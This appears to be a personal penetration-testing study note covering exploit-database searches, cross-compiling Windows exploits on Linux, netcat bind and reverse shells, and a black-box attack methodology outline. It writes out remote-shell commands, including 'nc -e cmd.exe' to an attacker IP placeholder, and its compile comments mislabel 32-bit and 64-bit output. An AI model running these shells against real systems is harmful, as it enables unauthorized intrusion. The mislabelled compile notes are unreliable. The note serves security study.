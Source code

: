 # Searching for Exploit
- https://www.exploit-db.com/
- https://www.rapid7.com/db/
- https://packetstormsecurity.com/
- `searchexploit -u` -- to update the repository
- `searchexploit -m [ID of exploit]` -- to copy the exploit to current working dir

# Cross-Compiling Exploits
- Mingw-w64 -- for compiling win exploit in linux
	- `sudo apt-get install mingw-w64`
- `sudo apt-get install gcc`  -- for compiling c/c++ exploit
- windows exploit written in C; compile in linux
	- `i686-w64-mingw32-gcc exploit.c -o exploit` -- it will compile exe for 64 bit
	- `i686-w64-mingw32-gcc exploit.c -o exploit -lws2_32` -- it will compile exe for 32 bit

# Bind & Reverse Shells
######  Netcat
- `nc -nv IP PORT` -- for verbosity and no dns resolution
- to send file via nc
	- `nc -nlvp 1234 > test.txt` this on target machine to listen for connection
	- `nc -nv Ip 1234 < test.txt` this on attacker machine to connect and send file
###### Bind Shells
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system
- ![[bind shell.png]]
- `nc -nlvp 1234 -e cmd.exe` -- on target to listen and when someone connect execute cmd.exe
	- use `-c /bin/bash` if target is linux
- `nc -nv [target IP] 1234` -- on attacker
###### Reverse Shells
- A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker’s system, consequently allowing for execution of commands on the target system.
- ![[images/reverse shell.png]]
- `nc -nlvp 1234` -- on attacker to listen
- `nc -nv [attacker IP] 1234 -e cmd.exe` -- on target to make connection
###### Cheatsheet
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://www.revshells.com/
# Black Box Methodology
-  Host discovery
- Port scanning & enumeration
- Vulnerability detection/scanning
- Exploitation
	- Manual
	- Automated
- Post Exploitation
-  Privilege Escalation
	- Persistence
	- Dumping Hashes

